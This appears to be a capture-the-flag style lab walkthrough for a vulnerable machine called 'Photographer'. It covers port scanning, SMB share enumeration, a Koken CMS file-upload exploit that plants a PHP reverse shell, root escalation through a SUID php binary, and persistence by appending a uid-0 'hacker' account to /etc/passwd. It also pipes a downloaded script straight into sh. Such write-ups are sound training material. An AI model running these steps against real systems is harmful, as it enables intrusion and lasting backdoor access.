








# Photographer

### Contents

- [Set-up](#set-up)
- [Recon](#recon)
- [Foothold](#foothold)
- [Privilege Escalation](#privilege-escalation)
- [Persistence (Bonus)](#persistence-bonus)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target `192.168.53.76` as `target` to `/etc/hosts`

## Recon 

3) Service discovery with `nmap -v -p- -T4 target`:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8000/tcp open  http-alt
```

4) More thorough scan with service scripts and service version fingerprinting e.g. `nmap -v -p 22,80,139,445,8000 -T4 -A target`:


<details>

<summary>`nmap` results</summary>

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:4d:aa:18:86:94:8e:88:a7:4c:6b:42:60:76:f1:4f (RSA)
|   256 4d:a3:d0:7a:8f:64:ef:82:45:2d:01:13:18:b7:e0:13 (ECDSA)
|_  256 1a:01:7a:4f:cf:95:85:bf:31:a1:4f:15:87:ab:94:e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Photographer by v1n1v131r4
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: daisa ahomi
|_http-generator: Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-03-03T00:20:45
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2024-03-02T19:20:45-05:00
| nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   PHOTOGRAPHER<00>     Flags: <unique><active>
|   PHOTOGRAPHER<03>     Flags: <unique><active>
|   PHOTOGRAPHER<20>     Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
```

</details>

So a few things I note from the results:

- There's an OpenSSH 7.2.p2 (ssh) server on port 22
- There's an Apache 2.4.18 (http) server on port 80
- There's Samba 3.X - 4.X and 4.3.11 (smb) servers on ports 139 and 445 respectively. This machine might be part of an AD domain
- There's an Apache 2.4.18 (http) server on port 8000 serving a something with the title "daisa ahomi". Also noteworthy is that the "generator" meta tag for the webserver has the value "Koken 0.22.24"...

5) We'll check the HTTP servers on the browser:

The server on port 80 seems to be a basic application based on a template (it has typography and elements stuff... no auth)



The server on port 8000 seems just serves an empty/in-development site.



That footer: "Built with Koken" is noteworthy. We'll look up "Koken" on exploit-db for well-known exploits. If we can't find anything we'll enumerate the webservers.

6) Before moving on, we look deeper into what the heck "Koken" is. We find that its a photography content management software project that's been dead now for 2-years ([docs](https://www.koken.me/)). Chances are this thing has a juicy vulnerability we can take advantage of.

7) Looking up Koken in exploit-db:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit koken
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)    | php/webapps/48706.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Great, there's an arbitrary file upload vulnerability. We'll try to exploit this to get a reverse shell on the host.

The actual [exploit file](https://www.exploit-db.com/exploits/48706) has instructions on how to execute the exploit. There's also a copy of the file in the [`exploit`](./exploit) directory.

8) The exploit requires authenticating against the Koken API... so we'll use gobuster to enumerate the API's paths and hopefully find a path to authenticate against:

First ran `gobuster dir -u http://target:8000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --status-codes-blacklist 404,301,302`

I was getting no hits... So I ran it again with the `--add-slash` option:

<details>

<summary>`gobuster` results</summary>

```                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://target:8000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --status-codes-blacklist 404,301,302 --add-slash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target:8000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,301,302
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index/               (Status: 200) [Size: 4603]
/home/                (Status: 200) [Size: 4561]
/content/             (Status: 200) [Size: 3207]
/icons/               (Status: 403) [Size: 273]
/page/                (Status: 200) [Size: 3129]
/category/            (Status: 200) [Size: 3164]
/admin/               (Status: 200) [Size: 1020]
/categories/          (Status: 200) [Size: 3181]
/storage/             (Status: 403) [Size: 273]
/albums/              (Status: 200) [Size: 3192]
/tag/                 (Status: 200) [Size: 3141]
/contents/            (Status: 200) [Size: 3166]
/tags/                (Status: 200) [Size: 3127]
/date/                (Status: 200) [Size: 3086]
/app/                 (Status: 200) [Size: 114]
/timeline/            (Status: 200) [Size: 3186]
/album/               (Status: 200) [Size: 3137]
/essays/              (Status: 200) [Size: 3190]
/error/               (Status: 200) [Size: 3055]
/set/                 (Status: 200) [Size: 3119]
/favorites/           (Status: 200) [Size: 3172]
/essay/               (Status: 200) [Size: 3164]
/lightbox/            (Status: 200) [Size: 1485]
/sets/                (Status: 200) [Size: 3129]
Progress: 29807 / 220561 (13.51%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 29916 / 220561 (13.56%)
===============================================================
Finished
===============================================================
```

</details>

Running it that second time pretty quickly gave us lots of hits to try, notably a `/admin/` path.

9) Checking out the `/admin/` path in the browser, we see a login screen.



Tried a bunch of possible default credentials and none succeeded. I tried:

- admin@localhost : password
- admin@localhost : admin
- koken@localhost : password
- koken@localhost : admin
- kokenuser@localhost : admin
- kokenuser@localhost : password

> I got these combinations from various online installation guides for Koken.

## Foothold 

10) Maybe its time to look elsewhere. Let's look at those SMB shares... With `smbclient -L target -N` we find there are some shares we can look at unauthenticated:

```
┌──(kali㉿kali)-[~]
└─$ smbclient -L target -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            PHOTOGRAPHER
```

11) Inspecting the shares we find promising things in `sambashare`:

```
┌──(kali㉿kali)-[/mnt/hgfs/kali-path]
└─$ smbclient \\\\target\\sambashare
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> l
  .                                   D        0  Thu Aug 20 08:51:08 2020
  ..                                  D        0  Thu Aug 20 09:08:59 2020
  mailsent.txt                        N      503  Mon Jul 20 18:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 18:22:23 2020

		3300080 blocks of size 1024. 2958792 blocks available
smb: \> get mailsent.txt
getting file \mailsent.txt of size 503 as mailsent.txt (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \> ^C
```

```
┌──(kali㉿kali)-[/mnt/hgfs/kali-path]
└─$ cat mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

So hopefully our admin credentials are `daisa@photographer.com:babygirl` or something similar like that! Time to try them...

12) We try `daisa@photographer.com:babygirl` against the admin login page from before, and we are in:



13) Now we can continue with the exploit...

13.1) We follow the instructions and fire up Burp Suite

13.2) We prepare a php reverse shell by modifying a copy of `/usr/share/webshells/php/php-reverse-shell.php` to point to our local IP and an unused local listener port. We save it with a `.jpg` extension (we'll try to upload it as an image and the upload form has some (client-side) validation for the file ext).

13.3) We setup a local listener on port 80 with `nc -lvnp 80`

13.4) We open the Burp's built-in browser from the Proxy tab and authenticate against the Koken API (such that we have a valid session cookie in that browser)

13.5) We click on "Import Content" on the bottom right corner of the page. We drag and drop (or browse) the reverse shell file into the upload area

13.6) We enable intercepting requests in Burp suite



13.7) Send the upload request by clicking "Import". You should see the intercepted request appear in Burp, where you can examine,  modify, and forward it



13.9) Rename the file to have a php extension (at this point we already overcame the client side validation for file ext). **There are two locations in the request body where this has to be done: one in the request's `Content-Disposition` header, and again in the body**. Click "Forward" to forward the request to the target. At this point you can disable intercepts (which will result in forwarding all subsequent requests from Burp's built-in browser to the target automatically).



13.10) We wait for the upload to complete; then click on the uploaded file in the library to see if gets the php payload to execute.



We have a shell (as user `www-data`)!

14) In `daisa`'s home directory, we find our access flag

```
$ pwd
/home/daisa
$ cat local.txt
0f38df4f0218732d98222db9ffe91bdd
```

It is time for privilege escalatiion - we want root.

## Privilege Escalation 

15) We run linPEAS with `wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`. The most interesting findigs are:

- There's a mysql server on the machine

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -     
```

- There seems to be a hardcoded database password in the Koken API's config files

```
╔══════════╣ Analyzing Backup Manager Files (limit 70)
-rwxr-xr-x 1 www-data www-data 2537 Aug  7  2017 /var/www/html/koken/app/application/config/database.php
|	['password'] The password used to connect to the database
|	['database'] The name of the database you want to connect to
$db['default']['password'] = $db_config['password'];
$db['default']['database'] = $db_config['database'];
-rw-r--r-- 1 www-data www-data 187 Jul 20  2020 /var/www/html/koken/storage/configuration/database.php
		'database' => 'koken',
		'password' => 'user_password_here',
```

- PHP seems to have a SUID bit:

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
... (omitted for brevity)
-rwsr-xr-x 1 root root 4.7M Jul  9  2020 /usr/bin/php7.2 (Unknown SUID binary!)
```


16) We inspect that database.php config file and we inspect the database (more than anything out of curiousity, don't really expect to find anything helpful there):

```
$ cat /var/www/html/koken/storage/configuration/database.php
<?php
	return array(
		'hostname' => 'localhost',
		'database' => 'koken',
		'username' => 'kokenuser',
		'password' => 'user_password_here',
		'prefix' => 'koken_',
		'socket' => ''
	);
```

```
$ mysql --user=kokenuser --password=user_password_here --host=localhost --port=3306 koken -e 'show tables;'
Tables_in_koken
koken_albums
koken_applications
koken_categories
koken_content
koken_drafts
koken_history
koken_join_albums_categories
koken_join_albums_content
koken_join_albums_covers
koken_join_albums_tags
koken_join_albums_text
koken_join_categories_content
koken_join_categories_text
koken_join_content_tags
koken_join_tags_text
koken_plugins
koken_settings
koken_slugs
koken_tags
koken_text
koken_trash
koken_urls
koken_users
```

```
$ mysql --user=kokenuser --password=user_password_here --host=localhost --port=3306 koken -e 'select * from koken_users limit 5;'
id	password	email	created_on	modified_on	first_name	last_name	public_first_name	public_last_name	public_display	public_email	twitter	facebook	google	internal_id	remember_me
1	$2a$08$ruF3jtzIEZF1JMy/osNYj.ibzEiHWYCE4qsC6P/sMBZorx2ZTSGwK	daisa@photographer.com	1595292775	1595292775	daisa	ahomi	daisa	ahomi	both	daisa@photographer.com	NULL	NULL	NULL	6d9505613547705d48ec6ac1792b18e0	NULL
```

Nothing really useful here (checked the other tables and also nothing useful).

18) The php binary has SUID bit - so technically we should be able to just spawn a shell with PHP and we'll be root. Let's try.

```
$ which php7.2
/usr/bin/php7.2
$ php7.2 -r 'pcntl_exec("/bin/bash", ["-p"]);'
whoami
root
cd /root
ls -la | grep txt 
-rw-------  1 root root   33 Mar  3 00:20 proof.txt
cat proof.txt
230faed90088c31b7b33c95bf28c0993
```

Success! And there's our flag!

## Persistence (Bonus)

19) We're gonna set up a user to be able to enter the machine through the front door (ssh)


19.1) Generate a hash for the password in the kali machine:

```
┌──(kali㉿kali)-[/mnt/hgfs/kali-path]
└─$ openssl passwd hacker
$1$R7KWEbWt$ljsQw5U/zRS8WI.cSnl1m.
```

19.2) We add a line in `/etc/passwd` in the target machine for our new user+password

```
echo 'hacker:$1$R7KWEbWt$ljsQw5U/zRS8WI.cSnl1m.:0:0:root:/root:/bin/bash' >> /etc/passwd
```

(and verify)


```
cat /etc/passwd | grep hacker
hacker:$1$R7KWEbWt$ljsQw5U/zRS8WI.cSnl1m.:0:0:root:/root:/bin/bash
```

19.3) Testing:

```
┌──(kali㉿kali)-[/mnt/hgfs/kali-path]
└─$ ssh hacker@target    
hacker@target's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

95 packages can be updated.
0 updates are security updates.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@photographer:~# whoami
root
```

Success!


